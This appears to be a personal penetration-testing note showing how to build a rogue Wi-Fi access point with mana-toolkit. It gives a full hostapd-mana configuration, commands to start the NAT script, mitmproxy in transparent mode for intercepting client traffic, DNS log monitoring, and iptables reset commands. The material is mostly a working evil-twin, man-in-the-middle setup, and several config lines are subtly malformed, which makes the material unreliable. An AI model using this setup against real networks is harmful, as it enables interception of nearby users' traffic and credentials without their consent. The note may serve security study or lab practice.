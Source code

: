 # Creating a rogue AP

**edit in configuration file `etc/mana-toolkit/hostapd-mana.conf`**

```bash
interface, SSID, channel, BSSID
```

*   **improved version from `hostapd-mana.conf`**

    ```bash
    interface=wlan0
    hw_mode=g
    channel=10
    ieee80211d=1
    country_code=GY
    ieee80211n=1
    wmm_enabled=1
    driver=nl80211
    ssid=mirage21
    auth_algs=1
    wpa=2
    wpa_key_mgmt=WPA-PSK
    rsn_pairwise=CCMP
    wpa_passphrase=somepassword

    bssid=30:b4:a1:37:fo:fo

    # Prevent dissasociations
    disassoc low_ack=0
    ap_max_inactivity-3000

    # no SSID cloaking
    #ignore_broadcast_ssid=0

    #1 log all messages
    logger syslog=-1
    logger stdout=-1

    #2 informational messages
    logger syslog_level=2
    logger stdout_level=2

    ctrl interface=/var/run/hostapd
    ctrl interface_group=0

    # Finally, enable mana
    #enable mana=1
    # Limit mana to responding only to the device probing (0), or not (1)
    #mana Loud=0
    # Extend MAC ACLS to probe frames
    #mana macacl=e
    # Put hostapd in white/black list mode
    #macaddr_acl=0
    # only used if you want to do filter by MAC address
    #accept_mac_file=/etc/mana-toolkit/hostapd.accept
    #deny_mac_file=/etc/mana-toolkit/hostapd.deny

    ```

then run mana-toolkit

```bash
cd /usr/share/mana-toolkit/run-mana
sudo ./start-nat-simple.sh
```

**run proxy**

```bash
mitmproxy --mode transparent --showhost
```

show dns logs

```bash
tail -f /tmp/dnsmasq.log
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-06-14 131448.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Screenshot 2025-06-14 131513.png" alt=""><figcaption></figcaption></figure>

> action refused → because it try to connect to SSL certificate but not found it

***

#### Return all settings to default

```bash
systemctl restart NetworkManager
systemctl restart apache2
iptables --flush
iptables --table nat --flush	
iptables --delete-chain
iptables --table nat --delete-chain	
systemctl start NetworkManager	
```
